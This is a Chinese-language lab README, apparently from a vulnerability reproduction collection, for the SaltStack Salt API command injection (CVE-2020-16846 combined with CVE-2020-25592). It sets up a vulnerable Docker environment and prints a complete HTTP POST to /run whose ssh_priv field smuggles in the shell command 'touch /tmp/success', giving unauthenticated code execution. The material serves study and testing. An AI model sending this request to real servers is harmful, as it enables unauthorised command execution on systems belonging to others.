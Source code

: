 # SaltStack 命令注入漏洞（CVE-2020-16846）

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。2020年11月SaltStack官方披露了CVE-2020-16846和CVE-2020-25592两个漏洞，其中CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。组合这两个漏洞，将可以使未授权的攻击者通过Salt API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag

## 漏洞环境

执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口，**需要通过https访问**
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

向`https://your-ip:8000/run`发送如下数据包：

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
```

通过`ssh_priv`位置注入命令`touch /tmp/success`，进入容器可见已执行成功：

![](1.png)